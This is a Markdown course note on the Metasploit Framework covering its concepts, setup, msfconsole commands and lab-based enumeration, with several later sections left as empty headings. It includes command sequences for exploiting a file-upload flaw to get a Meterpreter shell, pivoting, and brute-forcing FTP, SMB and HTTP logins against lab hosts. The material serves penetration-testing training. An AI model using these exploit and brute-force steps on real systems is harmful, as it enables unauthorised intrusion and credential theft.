# The Metasploit Framework (MSF)

> #### ⚡ Prerequisites
>
> * Basic familiarity with Linux & Windows
> * Basic familiarity with TCP & UDP protocols
>
> #### 📕 Learning Objectives
>
> * Understand, install, configure and use **Metasploit Framework**
> * Perform **info-gathering**, **enumeration**, **exploitation**, **post exploitation** with Metasploit
>
> #### 🔬 Training list - PentesterAcademy/INE Labs
>
> `subscription required`
>
> - [Metasploit Auxiliary modules](https://www.attackdefense.com/listingnoauth?labtype=metasploit&subtype=metasploit-auxiliary)
> - [MITRE ATT&CK Linux Discovery](https://attackdefense.com/listing?labtype=mitre&subtype=mitre-discovery)
> - [Metasploit Meterpreter](https://attackdefense.com/listing?labtype=metasploit&subtype=metasploit-meterpreter)
> - [Linux Vulnerable Servers Exploitation - Metasploit](https://www.attackdefense.com/listingnoauth?labtype=metasploit&subtype=metasploit-linux-exploitation)
> - [Linux Exploitation - Metasploit](https://www.attackdefense.com/listingnoauth?labtype=linux-security-exploitation&subtype=linux-security-exploitation-metasploit)
> - [Linux Post Modules - Metasploit](https://www.attackdefense.com/listingnoauth?labtype=linux-security-post-exploitation&subtype=linux-security-post-exploitation-metasploit)
> - [Win Basic Exploitation - Metasploit](https://www.attackdefense.com/listingnoauth?labtype=windows-exploitation&subtype=windows-exploitation-basics)
> - [Win Pentesting Basic Exploitation](https://attackdefense.com/listing?labtype=windows-exploitation&subtype=windows-exploitation-pentesting)
> - [Win Apps Exploits - Metasploit](https://www.attackdefense.com/listingnoauth?labtype=metasploit&subtype=metasploit-windows-apps-exploits)
> - [Win Post Exploitation - Metasploit](https://attackdefense.com/listing?labtype=windows-post-exploitation&subtype=windows-post-exploitation-metasploit)
> - [Win Maintaining Access](https://attackdefense.com/listing?labtype=windows-maintaining-access&subtype=windows-maintaining-access-basics)

## MSF Introduction

🗒️ The [**Metasploit Framework**](https://www.metasploit.com/) (**MSF**) is an open-source pentesting and exploit development platform, used to write, test and execute exploit code.

- Provides automation of the penetration testing life cycle (specially exploitation and post-exploitation)
- Used to develop and test exploits
- Has a world database and public tested exploits 
- It is modular, new modules can be added and integrated
- [Pre-installed in Kali Linux](https://www.kali.org/tools/metasploit-framework/)
- It is [open-source](https://github.com/rapid7/metasploit-framework)
- Founded by H.D. Moore in 2003 (developed in Perl), Written in Ruby in 2007, acquired by [Rapid7](https://www.rapid7.com/) in 2009, released as Metasploit v6.0 in 2020
- **Metasploit Framework** is the Community Edition
- Metasploit Pro & Express are Commercial versions

> 📌 Check the [Metasploit Unleashed – Free Ethical Hacking Course by OffSec](https://www.offsec.com/metasploit-unleashed/)

### Terminology

| Term              | Description                                                  |
| ----------------- | ------------------------------------------------------------ |
| **Interface**     | Methods of interacting with the Metasploit Framework (`msfconsole`, Metasploit cmd) |
| **Module**        | Pieces of code that perform a particular task (an exploit)   |
| **Vulnerability** | Exploitable flaw or weakness in a computer system or network |
| **Exploit**       | Code/Module used to take advantage of a vulnerability        |
| **Payload**       | Piece of code delivered to the target by an exploit (execute arbitrary commands or provide remote access) |
| **Listener**      | Utility that listens for an incoming connection from a target |

> 📌 **Exploit** is launched (takes advantage of the vulnerability) ➡️ **Payload** dropped (executes a reverse shell command) ➡️ Connects back to the **Listener**

### Interfaces

🗒️ **Metasploit Framework Console** (**[MSFconsole](https://www.offsec.com/metasploit-unleashed/msfconsole/)**) - an all in one interface that provides with access to all the functionality of the MSF.



🗒️ **Metasploit Framework Command Line Interface** (**[MSFcli](https://www.offsec.com/metasploit-unleashed/msfcli/)**) - a command line utility used to facilitate the creation of automation scripts that utilize Metasploit modules.

- Discontinued in 2015, MSFconsole can be used with the same functionality of *redirecting output from other tools into `msfcli` and vice versa.*

🗒️ **Metasploit Community Edition GUI** - a web based GUI front-end of the MSF.

🗒️ [**Armitage**](https://www.kali.org/tools/armitage/) - a free Java based GUI front-end cyber attack management tool for the MSF.

- Visualizes targets and simplifies network discovery
- Recommends exploits
- Exposes the advanced capabilities of the MSF

### [Architecture](https://www.offsec.com/metasploit-unleashed/metasploit-architecture/)



🗒️ A **module** is the piece of code that can be utilized and executed by the MSF.

The MSF **libraries** (Rex, Core, Base) allow to extend and initiate functionality, facilitating the execution of modules without having to write additional code.

### [Modules](https://www.offsec.com/metasploit-unleashed/modules-and-locations/)

| MSF Module    | Description                                                  |
| ------------- | ------------------------------------------------------------ |
| **Exploit**   | Used to take advantage of a vulnerability, usually paired with a payload |
| **Payload**   | Code delivered and remotely executed on the target *after successful exploitation* - **e.g.** a reverse shell that initiates a connection |
| **Encoder**   | Used to encode payloads in order to avoid Anti Virus detection - **e.g.** [shikata_ga_nai](https://www.mandiant.com/resources/blog/shikata-ga-nai-encoder-still-going-strong) encoding scheme |
| **NOPS**      | Keep the payload sizes consistent across exploit attempts and ensure the *stability of a payload* on the target system |
| **Auxiliary** | Is not paired with a payload, used to perform additional functionality - **e.g.** port scanners, fuzzers, sniffers, etc |

### [Payload Types](https://www.offsec.com/metasploit-unleashed/payloads/)

**Payloads** are created at runtime from various components. Depending on the target system and infrastructure, there are two types of payloads that can be used:

- **Non-Staged Payload** - sent to the target system as is, along with the exploit
- **Staged Payload** - sent to the target in two parts:
  - the **stager** (first part) establish a stable communication channel between the attacker and target. It contains a payload, the stage, that initiates a reverse connection back to the attacker
  - the **stage** (second part) is downloaded by the stager and executed
    - executes arbitrary commands on the target
    - provides a reverse shell or Meterpreter session

🗒️ The [**Meterpreter**](https://www.offsec.com/metasploit-unleashed/about-meterpreter/) is an advanced multi-functional payload executed by in memory DLL injection stagers on the target system.

- Communicates over the stager socket
- Provides an interactive command interpreter on the target system

### [File System](https://www.offsec.com/metasploit-unleashed/filesystem-and-libraries/)

```bash
ls /usr/share/metasploit-framework
```


- MSF filesystem is intuitive and organized by directories.
- Modules are stored under:
  - `/usr/share/metasploit-framework/modules/`
  - `~/.msf4/modules` - user specified modules






****

### Pentesting with MSF

🗒️ [**PTES**](http://www.pentest-standard.org/index.php/Main_Page) (**P**enetration **T**esting **E**xecution **S**tandard) is a methodology that contains 7 main sections, defined by the standard as a comprehensive basis for penetration testing execution.

- can be adopted as a roadmap for Metasploit integration and understanding of the phases of a penetration test.

> The various phases involved in a typical pentest should be:
>
> 📌 **Pre-Engagement Interactions**
>
> ⬇️ 
>
> 📌 **Information Gathering**
>
> ⬇️
>
> 📌 **Enumeration**
>
> - Threat Modeling
> - Vulnerability Analysis
>
> ⬇️
>
> 📌 **Exploitation**
>
> ⬇️
>
> 📌 **Post Exploitation**
>
> - Privilege Escalation
> - Maintaining Persistent Access
> - Clearing Tracks
>
> ⬇️
>
> 📌 **Reporting**

|            Pentesting Phase             | MSF Implementation                     |
| :-------------------------------------: | -------------------------------------- |
| **Information Gathering & Enumeration** | Auxiliary Modules, `nmap` reports      |
|       **Vulnerability Scanning**        | Auxiliary Modules, `nessus` reports    |
|            **Exploitation**             | Exploit Modules & Payloads             |
|          **Post Exploitation**          | Meterpreter                            |
|        **Privilege Escalation**         | Post Exploitation Modules, Meterpreter |
|    **Maintaining Persistent Access**    | Post Exploitation Modules, Persistence |



## Metasploit Fundamentals

### [Database](https://www.offsec.com/metasploit-unleashed/using-databases/)

🗒️ The **Metasploit Framework Database** (**msfdb**) contains all the data used with MSF like assessments and scans data, etc.

- Uses PostgreSQL as the primary database - `postgresql` service must be running
- Facilitates the import and storage of scan results (from Nmap, Nessus, other tools)

### MSF Kali Configuration

- Use APT package manager on Kali Linux (or on Debian-based distros)

```bash
sudo apt update && sudo apt install metasploit-framework -y
```

- Enable `postgresql` at boot, start the service and initialize MSF database

```bash
sudo systemctl enable postgresql
sudo systemctl restart postgresql
sudo msfdb init
```

- Run **`msfconsole`** to start the Metasploit Framework Console

```bash
msfconsole
```

- Check the db connection is on in the `msfconsole`

```bash
db_status
```


> 📌 Check this article by StationX ➡️ [How to Use Metasploit in Kali Linux + Metasploitable3](https://www.stationx.net/how-to-use-metasploit-in-kali-linux/) which will cover:
>
> - Deploying a Kali Linux virtual machine with Metasploit pre-installed
> - Setting up a target in a virtual lab, Metasploitable3, with Vagrant
> - A sample walkthrough against a vulnerable MySQL Server
> - Frequently Asked Questions (FAQ)

### [MSFConsole](https://www.offsec.com/metasploit-unleashed/msfconsole/)

🗒️ The **Metasploit Framework Console** (**msfconsole**) is an all-in-one interface and centralized console that allows access to all of the MSF options and features.

- It is launched by running the `msfconsole` command

```bash
msfconsole
```

- Run it in quiet mode without the banner with

```bash
msfconsole -q
```

### Module Variables

An MSF module requires additional information that can be configured through the use of MSF **variables**, both *local* or *global* variables, called **`options`** inside the msfconsole.

**Variables e.g.** (they are based on the selected module):

- `LHOST` - attacker's IP address
- `LPORT` - attacker's port number (receive reverse connection)
- `RHOST` - target's IP address
- `RHOSTS` - multiple targets/networks IP addresses
- `RPORT` - target port number

### Useful Commands

- Run `msfconsole` and check these useful commands:

```bash
help
version

show -h
show all
show exploits

search <STRING>
use <MODULE_NAME>
set <OPTION>
run
execute # same as run

sessions
connect
```





#### Port Scan Example

```bash
search portscan
use auxiliary/scanner/portscan/tcp
show options
set RHOSTS <TARGET_IP>
set PORTS 1-1000
run
# CTRL+C to cancel the running process
back
```



#### CVE Exploits Example

```bash
search cve:2017 type:exploit platform:window
```



#### Payload Options Example

```bash
search eternalblue
use 0
# specify the identifier
set payload <PAYLOAD_NAME>
set RHOSTS <TARGET_IP>
run
# or
exploit
```




### [Workspaces](https://docs.rapid7.com/metasploit/managing-workspaces/)

🗒️ Metasploit **Workspaces** allows to manage and organize the hosts, data, scans and activities stored in the `msfdb`.

- Import, manipulate, export data
- Create, manage, switch between workspaces
- Sort and organize the assessments of the penetration test

> 📌 *It's recommended to create a new workspace for each engagement.*

```bash
msfconsole -q
db_status
	[*] Connected to msf. Connection type: postgresql.
```

```bash
workspace -h
```



```bash
workspace
# current working workspace
	* default
```

- **Create** a new workspace

```bash
workspace -a Test
```



- **Change** workspace

```bash
workspace <WORKSPACE_NAME>
```

```bash
workspace -a INE
```

- **Delete** a workspace

```bash
workspace -d Test
```

## Information Gathering & Enumeration with MSF

- The Metasploit Framework allows to import `nmap` results.

### Nmap Enumeration

**`nmap`** enumeration results (*service versions, operating systems, etc*) can be exported into a file that can be imported into MSF and used for further detection and exploitation.

> 🔬 Check the full `nmap` information gathering lab in [this Nmap Host Discovery Lab](../assessment-methodologies/1-info-gathering.md#lab-with-nmap) (at the end of the page).

Some commands:

```bash
nmap <TARGET_IP>
nmap -Pn <TARGET_IP>
nmap -Pn -sV -O <TARGET_IP>
```

- Output the `nmap` scan results into an **`.XML`** format file that can be imported into MSF

```bash
nmap -Pn -sV -O 10.2.18.161 -oX windows_server_2012
```

### [MSFdb Import](https://www.offsec.com/metasploit-unleashed/using-databases/)

-  In the same lab environment from above, use `msfconsole` to import the results into MSF with the `db_import` command

```bash
service postgresql start
msfconsole
```

- Inside `msfconsole`

```bash
db_status
workspace -a Win2k12
```

```bash
db_import /root/windows_server_2012
```

```bash
[*] Importing 'Nmap XML' data
[*] Import: Parsing with 'Nokogiri v1.10.7'
[*] Importing host 10.2.18.161
[*] Successfully imported /root/windows_server_2012
```

```bash
hosts
services
vulns
```



- Perform an `nmap` scan *within the MSF Console and import the results in a dedicated workspace*

```bash
workspace -a nmap_MSF
```

```bash
db_nmap -Pn -sV -O <TARGET_IP>
```



### [Port Scanning](https://www.offsec.com/metasploit-unleashed/port-scanning/)

MSF **Auxiliary modules** are used during the information gathering (similar to `nmap`) and the post exploitation phases of the pentest.

- perform TCP/UDP port scanning
- enumerate services
- discover hosts on different network subnets (post-exploitation phase)

#### Lab Network Service Scanning

> 🔬 Lab [T1046 : Network Service Scanning](https://attackdefense.com/challengedetails?cid=1869)

```bash
service postgresql start && msfconsole -q
```

```bash
workspace -a Port_scan
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.41.167.3
run
```



```bash
curl 192.41.167.3
```

- Exploitation

```bash
search xoda
use exploit/unix/webapp/xoda_file_upload
set RHOSTS 192.41.167.3
set TARGETURI /
run
```


- Perform a network scan on the second target

```bash
meterpreter > shell
```

```bash
/bin/bash -i
ifconfig
# 192.26.158.2 Local Lan subnet IP
exit
```

- Add the route within `meterpreter` and background the meterpreter session

```bash
run autoroute -s 192.26.158.2
background
```


```bash
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.26.158.3
run
```

```bash
# the port scan will be performed through the first target system using the route
[+] 192.26.158.3: - 192.26.158.3:22 - TCP OPEN
[+] 192.26.158.3: - 192.26.158.3:21 - TCP OPEN
[+] 192.26.158.3: - 192.26.158.3:80 - TCP OPEN
```

- Upload and run `nmap` against the second target, from the first target machine

```bash
sessions 1
upload /root/tools/static-binaries/nmap /tmp/nmap
shell
```

```bash
/bin/bash -i
cd /tmp
chmod +x ./nmap
./nmap -p- 192.26.158.3
```

```bash
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

> 📌 There are **`3`** running services on the second target machine.

#### UDP Scan

- Into `msfconsole`

```bash
search udp_sweep
use auxiliary/scanner/discovery/udp_sweep
set RHOSTS 192.41.167.3
run
```

### Service Enumeration

> 📌🔬 Check the [Enumeration Section labs here](../assessment-methodologies/3-enumeration.md) for basic `nmap` enumeration.

Next, there are some MSF commands and modules for **service enumeration** on the same labs from the Enumeration Section.

- Auxiliary modules can be used for enumeration, brute-force attacks, etc

❗📝 **On every attacker machine, run this command to start `msfconsole`:**

```bash
service postgresql start && msfconsole -q
```

- Setup a **global variable**. This will set the RHOSTS option for all the modules utilized:

```bash
setg RHOSTS <TARGET_IP>
```

#### [FTP](../assessment-methodologies/3-enumeration/ftp-enum.md)

> **`auxiliary/scanner/ftp/ftp_version`**

```bash
workspace -a FTP_ENUM
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.146.175.3
run
```

```bash
[+] 192.146.175.3: - 192.146.175.3:21 - TCP OPEN
```

```bash
back
search type:auxiliary name:ftp
use auxiliary/scanner/ftp/ftp_version
set RHOSTS 192.146.175.3
run
```

```bash
[+] 192.146.175.3:21 - FTP Banner: '220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.146.175.3]\x0d\x0a'

search ProFTPD
```

> **`auxiliary/scanner/ftp/ftp_login`**

```bash
back
search type:auxiliary name:ftp
use auxiliary/scanner/ftp/ftp_login
show options
set RHOSTS 192.146.175.3
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

```bash
[+] 192.146.175.3:21 - 192.146.175.3:21 - Login Successful: sysadmin:654321
```

> **`auxiliary/scanner/ftp/anonymous`**

```bash
back
search type:auxiliary name:ftp
use auxiliary/scanner/ftp/anonymous
set RHOSTS 192.146.175.3
run
```

#### [SMB/SAMBA](../assessment-methodologies/3-enumeration/smb-enum.md#lab-3)

> **`auxiliary/scanner/smb/smb_version`**

```bash
setg RHOSTS 192.132.155.3
workspace -a SMB_ENUM
search type:auxiliary name:smb
use auxiliary/scanner/smb/smb_version
options
run
```

```bash
[*] 192.132.155.3:445 - Host could not be identified: Windows 6.1 (Samba 4.3.11-Ubuntu)
```

> **`auxiliary/scanner/smb/smb_enumusers`**

```bash
back
search type:auxiliary name:smb
use auxiliary/scanner/smb/smb_enumusers
info
run
```

```bash
[+] 192.132.155.3:139 - SAMBA-RECON [ john, elie, aisha, shawn, emma, admin ] ( LockoutTries=0 PasswordMin=5 )
```

> **`auxiliary/scanner/smb/smb_enumshares`**

```bash
back
search type:auxiliary name:smb
use auxiliary/scanner/smb/smb_enumshares
set ShowFiles true
run
```

```bash
[+] 192.132.155.3:139 - public - (DS) 
[+] 192.132.155.3:139 - john - (DS) 
[+] 192.132.155.3:139 - aisha - (DS) 
[+] 192.132.155.3:139 - emma - (DS) 
[+] 192.132.155.3:139 - everyone - (DS) 
[+] 192.132.155.3:139 - IPC$ - (I) IPC Service (samba.recon.lab)
```

> **`auxiliary/scanner/smb/smb_login`**

```bash
back
search smb_login
use auxiliary/scanner/smb/smb_login
options
set SMBUser admin
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

```bash
[+] 192.132.155.3:445 - 192.132.155.3:445 - Success: '.\admin:password'
```

#### [HTTP](../assessment-methodologies/3-enumeration/http-enum.md#lab-3)

> 🔬 [Metasploit - Apache Enumeration Lab](https://www.attackdefense.com/challengedetails?cid=118)

- Remember to specify the correct port and if targeting a web server with SSL enabled, in the options.

```bash
setg RHOSTS 192.106.226.3
setg RHOST 192.106.226.3
workspace -a HTTP_ENUM
```

> **`auxiliary/scanner/http/apache_userdir_enum`**

```bash
search apache_userdir_enum
use auxiliary/scanner/http/apache_userdir_enum
options
info
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
run
```

```bash
[+] http://192.106.226.3/ - Users found: rooty
```

> **`auxiliary/scanner/http/brute_dirs`**

> **`auxiliary/scanner/http/dir_scanner`**

```bash
search dir_scanner
use auxiliary/scanner/http/dir_scanner
options
run
```

> **`auxiliary/scanner/http/dir_listing`**

> **`auxiliary/scanner/http/http_put`**

```bash
[+] Found http://192.106.226.3:80/cgi-bin/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/data/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/doc/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/downloads/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/icons/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/manual/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/secure/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/users/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/uploads/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/web_app/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/view/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/webadmin/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/webmail/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/webdb/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/webdav/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/~admin/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/~nobody/ 404 (192.106.226.3)
```

> **`auxiliary/scanner/http/files_dir`**

```bash
search files_dir
use auxiliary/scanner/http/files_dir
options
set DICTIONARY /usr/share/metasploit-framework/data/wmap/wmap_files.txt
run
```

```bash
[+] Found http://192.106.226.3:80/file.backup 200
[*] Using code '404' as not found for files with extension .bak
[*] Using code '404' as not found for files with extension .c
[+] Found http://192.106.226.3:80/code.c 200
[*] Using code '404' as not found for files with extension .cfg
[+] Found http://192.106.226.3:80/code.cfg 200
[*] Using code '404' as not found for files with extension .class
[...]
[*] Using code '404' as not found for files with extension .html
[+] Found http://192.106.226.3:80/index.html 200
[*] Using code '404' as not found for files with extension .htm
[...]
[+] Found http://192.106.226.3:80/test.php 200
[*] Using code '404' as not found for files with extension .tar
[...]
```

> **`auxiliary/scanner/http/http_login`**

```bash
search http_login
use auxiliary/scanner/http/http_login
options
set AUTH_URI /secure/
unset USERPASS_FILE
echo "rooty" > user.txt
set USER_FILE /root/user.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```

> **`auxiliary/scanner/http/http_header`**

```bash
search http_header
use auxiliary/scanner/http/http_header
options
run
```

```bash
[+] 192.106.226.3:80 : CONTENT-TYPE: text/html
[+] 192.106.226.3:80 : LAST-MODIFIED: Wed, 27 Feb 2019 04:21:01 GMT
[+] 192.106.226.3:80 : SERVER: Apache/2.4.18 (Ubuntu)
[+] 192.106.226.3:80 : detected 3 headers
```

> **`auxiliary/scanner/http/http_version`**

```bash
search type:auxiliary name:http
use auxiliary/scanner/http/http_version
options
run
# in case of HTTPS website, set RPORT=443 and SSL="true"
```

```bash
[+] 192.106.226.3:80 Apache/2.4.18 (Ubuntu)
```

> **`auxiliary/scanner/http/robots_txt`**

```bash
search robots_txt
use auxiliary/scanner/http/robots_txt
options
run
```

```bash
[+] Contents of Robots.txt:
# robots.txt for attackdefense 
User-agent: test                     
# Directories
Allow: /webmail
User-agent: *
# Directories
Disallow: /data
Disallow: /secure
```

```bash
curl http://192.106.226.3/data/
curl http://192.106.226.3/secure/
```

#### [MYSQL](../assessment-methodologies/3-enumeration/mysql-enum.md)

> 🔬 [Metasploit - MySQL Enumeration Lab](https://www.attackdefense.com/challengedetails?cid=120)

## Vulnerability Scanning With MSF


## Client-Side Attacks with MSF


## Exploitation with MSF


## Post Exploitation with MSF


## Armitage - MSF GUI

### Kali Linux Installation

```bash
sudo apt install armitage -y
```

```bash
sudo msfdb init
```

```bash
sudo nano /etc/postgresql/15/main/pg_hba.conf
# On line 87 switch “scram-sha-256” to “trust”
```

```bash
sudo systemctl enable postgresql
sudo systemctl restart postgresql
```

```bash
sudo armitage
```

